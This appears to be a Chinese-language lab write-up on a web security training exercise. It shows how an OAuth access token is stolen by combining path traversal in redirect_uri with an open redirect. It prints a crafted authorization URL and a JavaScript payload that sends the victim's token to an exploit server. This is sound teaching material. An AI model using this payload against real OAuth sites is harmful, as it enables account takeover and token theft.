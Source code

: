 
该题用到了目录遍历用于重定向。首先观察登录过程中的HTTP HISTORY.

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171804979.png)

后端定义了 **/me**的API，用以保存认证码并传送到后端，返回用户信息.

验证目录遍历，将任意链接添加 **/post?postId=1**，发现被重定向到博客页面：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171815665.png)

在该题中，每一个博客文章下面都有一个NEXT POST按钮，这是一个开放的重定向链接功能：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171819787.png)

在repeater中修改?path的值，发现确实被重定向到了输入的网站（由于某些未知原因网站无法打开）：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171824975.png)

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171824197.png)

利用这一漏洞，就可以通过构造恶意url将请求返回值重定向到exploit server：

```html
https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171827288.png)

构造如下的payload来提取access token:

```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a8d00de037f50a480185b86027d00e4.oauth-server.net/auth?client_id=bw8cf8h9atia2l6ky9bvx&redirect_uri=https://0a58009c03b9506f80035db100f000e1.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a65008f039550c280295cf401390017.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)//字符串分割编码函数
    }
</script>
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171832973.png)

覆盖access_token，提交，即可获得apikey:

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308172006930.png)

#### 4.2.6 其它方式的外部域攻击

1.不安全的javascript脚本可能导致信息泄露（JSON HIJACK)
